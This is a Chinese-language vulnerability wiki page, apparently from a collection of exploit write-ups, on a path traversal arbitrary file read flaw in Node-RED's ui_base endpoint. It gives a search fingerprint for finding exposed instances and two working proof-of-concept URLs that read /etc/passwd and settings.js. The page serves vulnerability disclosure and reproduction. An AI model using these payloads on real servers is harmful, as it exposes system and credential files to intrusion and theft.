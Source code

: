 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

<a-checkbox checked>Node-RED</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Node-RED"</a-checkbox></br>

## 漏洞复现

访问页面

![img](/assets/PeiQi-Wiki/img/image-20210701185722667.png)



验证POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![img](/assets/PeiQi-Wiki/img/image-20210701185812622.png)



![img](/assets/PeiQi-Wiki/img/image-20210704171045540.png)
